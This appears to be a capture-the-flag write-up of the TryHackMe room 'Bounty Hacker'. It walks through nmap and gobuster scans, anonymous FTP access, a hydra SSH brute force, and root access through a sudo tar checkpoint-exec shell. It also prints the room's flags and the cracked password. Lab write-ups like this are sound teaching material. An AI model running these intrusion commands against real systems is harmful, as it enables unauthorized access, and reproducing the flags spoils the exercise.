 # Bounty Hacker

You were boasting on and on about your elite hacker skills in the bar and a few 
Bounty Hunters decided they'd take you up on claims! Prove your status is more 
than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Deploy and Scan

Using nmap to scan the machine and save the report

	nmap -sC -sV -oA scans/initial 10.10.47.74

We got 

FTP 21
SSH 22
HTTP 80

Checking out Homepage first

## Starting Gobuster

	gobuster dir --url http://10.10.47.74 -w /usr/share/seclists/Discovery/Web-Content/common.txt

Did not yield much so I ran dirbuster, which also didn't yield anything new.

## Checking out the FTP Server

The Server allows login as anonymous

	dir
	200 PORT command successful. Consider using PASV.
	150 Here comes the directory listing.
	-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
	-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
	226 Directory send OK.
	get locks.txt
	get task.txt

I download the files to inspect them on my machine which gives the Answer to the question by looking at task.txt

*Who wrote the task list?*
*lin*

In locks.txt I find a bunch of what seems to be passwords. 

The next Task is to brutefoce something useing these passowrds.

*What service can you bruteforce with the text file found?*
*ssh*

## Bruteforcing

A bit of googling "ssh brute force" lead me to try hydra out. The challange also hints to hydra.
The main problem at the moment seems to find a user name. So far we heard the names

- lin
- Vicous
- Red Eye

So I create users.txt file with those names to try together with locks.txt

	hydra -P locks.txt -L users.txt ssh://10.10.47.74

	[DATA] attacking ssh://10.10.47.74:22/
	[22][ssh] host: 10.10.47.74   login: lin   password: RedDr4gonSynd1cat3
	1 of 1 target successfully completed, 1 valid password found
	
*What is the users password?*
*RedDr4gonSynd1cat3*

this now lets us log in with ssh

	ssh lin@10.10.47.74

in the Home directory we find usr.txt

*user.txt*
*THM{CR1M3_SyNd1C4T3}*

## Escalating our privileges

### Enumeration

Going down the enumeration checklist https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

	find / -perm -u=s -type f 2>/dev/null

The only intresting thing here was chrome-sandbox and I did some research into that. There seems to be exploits
for this. But it seemed to far feched. I tried to focus on easer targets first so I checked

	lin@bountyhacker:~$ sudo -l
	[sudo] password for lin: 
	Matching Defaults entries for lin on bountyhacker:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User lin may run the following commands on bountyhacker:
	    (root) /bin/tar

Searching GTFObins I found

	sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

which instantly gets me root

	tar: Removing leading `/' from member names
	# whoami
	root
	locate root.tx        
	/root/root.txt
	# cat /root/root.txt
	THM{80UN7Y_h4cK3r}
 
*root.txt*
*THM{80UN7Y_h4cK3r}*

## Important Info

Target: 10.10.47.74
My IP: 10.9.222.124

usr: lin
pw RedDr4gonSynd1cat3

